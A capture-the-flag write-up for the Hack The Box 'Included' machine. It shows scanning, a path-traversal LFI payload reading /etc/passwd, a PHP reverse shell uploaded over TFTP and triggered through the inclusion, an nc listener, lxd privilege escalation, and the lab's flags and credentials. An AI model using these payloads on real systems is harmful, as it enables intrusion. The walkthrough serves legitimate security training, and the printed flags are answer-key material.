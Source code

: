 # Starting Point - Included

## Enumeration

```
rustscan 10.10.10.55 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.10.55/?file=index.php
```
So apparently only a single port is open. It's exposing an Apache webserver. Let's take a look at it.

### Examine Port 80 - Apache Server

![](pics/website.png)

Looking at the URL and having the name of the challenge in mind (`Included`), an experienced web penetration tester might directly think of Local File Inclusion (LFI). 

And indeed! Changing the URL to 
```
http://10.10.10.55/?file=../../../../../../../../etc/passwd
```
reveals the `/etc/passwd` file of the server.

![](pics/etc_passwd.png)

Now we check if we can also access `/proc/self/environ`. This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there. If we can access it, then we can easily create a reverse shell by injecting php code as e.g. the User-Agent in our request to the server (=Proc Environ Injection). Unfortunately, we cannot access it.

Another possibility would be to access `/var/log/apache2/access.log` after we sent a request to the website with PHP code as file parameter. The PHP code would then be executed, when loading the log file (=Log Poisoning). However, that's also not possible. Therefore, we need another technique.

A blog article with details about the various techniques can be found [here](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1).

I was pretty much stuck at this point. So I went through all the enumeration steps again. Thereby, I noticed, that `rustscan` does not support UDP port scanning at the time I'm writing this (https://github.com/RustScan/RustScan/issues/22).

Therefore, I ran the nmap scan again, but this time with a UDP scan:

```
sudo nmap -sU 10.10.10.55

PORT   STATE         SERVICE
69/udp open|filtered tftp
```

That's perfect for our LFI! We can now upload files to `/var/lib/tftpboot` (which is the default location), due to the misconfigured TFTP service (--create, -c
Allow new files to be created. By default, tftpd will only allow upload of files that already exist. Files are created with default permissions allowing anyone to read or write them, unless the --permissive or --umask options are specified.)

So now we can upload a php file that contains code for a reverse shell to our machine. Afterwards, we will execute the file by loading it with our LFI vulnerability.

For the PHP Shell, we use the Shell from Pentestmonkey (which is pretty much the standard when it comes to PHP reverse shells). We upload it with

```
tftp 10.10.10.15

put shell.php
```

Now start the listener `nc -lvpn 4444` and include the file by accessing following page: 

```
http://10.10.10.55/?file=../../../../../var/lib/tftpboot/shell.php
```

![](pics/reverse_shell.png)

## Exploitation

After several hours of research, I again had to take a look at the writeup, as I could not find any vulnerability on the system. And indeed! There is no vulnerability. The writeup simply says "The password Sheffield19 found in the previous can be used to switch to mike"... Like seriously, come on... Again one of those "we found the password in any of the previous machines for a completely unrelated user. It's obvious that you should use this password here as well". **FACEPALM** But w/e....

Now that we are user `mike`, we can look for a way to escalate our privileges. But first let's retrieve the user flag: `a56ef91d70cfbf2cdb8f454c006935a1`

Running the command `id`, we see that mike is in the group `lxc`. Following [this article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation), on how to obtain root privileges by abusing the `security.privileged=true` feature of lxc, we get root accces.

## Post-Exploitation
In the root directory there are two files:
  - root.txt: `c693d9c7499d9f572ee375d4c14c7bcf`
  - login.sql: `Daniel:>SNDv*2wzLWf` (credentials for another machine)